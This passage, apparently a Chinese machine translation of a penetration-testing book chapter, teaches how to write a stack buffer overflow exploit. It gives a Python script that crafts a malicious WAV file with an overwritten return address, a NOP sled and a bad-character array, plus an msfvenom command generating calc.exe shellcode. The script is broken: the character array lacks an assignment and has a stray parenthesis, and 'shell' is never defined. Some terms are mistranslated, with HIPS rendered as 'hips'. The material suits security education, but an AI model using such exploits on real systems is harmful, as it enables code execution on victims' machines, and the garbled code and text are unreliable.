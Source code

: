 现在我们知道了堆栈空间和偏移量，可以调整脚本以搜索潜在的坏字符。接下来，我们在代码末尾添加一个 NOP 底座，以确保跳转到 ESP 幻灯片的执行，直到跳转到可执行代码为止。我们通过计算我们必须使用的整个区域并从中减去偏移量和外壳代码来实现这一点。

然后，我们创建一个 NOP 雪橇，占据剩余区域。执行此操作的最简单方法是使用类似于`nop = "\x90"*(320-len(shell)-len(offset))`的方程式。更新后的 Python 代码如下所示。使用下面的 Python 脚本，我们可以测试坏字符；请注意，我们必须在初始大小调整后执行此操作，因为我们的问题区域将位于剩余的堆栈空间中。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
characters"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
"\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c"
"\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
"\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a"
"\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"
"\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
"\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95"
"\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3"
"\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe"
"\xff")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

我们应该生成程序将跳转到的模拟外壳代码。对于初始测试用例，您希望从一个没有任何其他依赖关系的简单示例开始。因此，我们可以告诉注入的代码调用`calc.exe`的实例。要做到这一点，我们所要做的就是使用`msfvenom`生成 shell 代码。

```
msfvenom -p windows/exec CMD=calc.exe -f c -b '\x00\xff'

```

这样做的目的是以可以放入 Python 元组的格式生成外壳代码，并删除潜在的坏字符`'\x00'`、`'\xff'`。像`msfvenom`这样的工具通过使用编码器自动为我们实现这一点。编码器的目的是删除坏字符；有一个很大的误解，他们被用来绕过臀部像防病毒。

几年前，HIPS 中的基本特征分析可能没有发现漏洞，因为它与非常特定的特征不匹配。如今，安全工具开发人员已经变得越来越好，触发器在设计上更具分析性。因此，编码器帮助阻止 HIPS 解决方案捕获漏洞的谬误终于消失了。

![Writing a basic buffer overflow exploit](graphics/B04315_08_30.jpg)
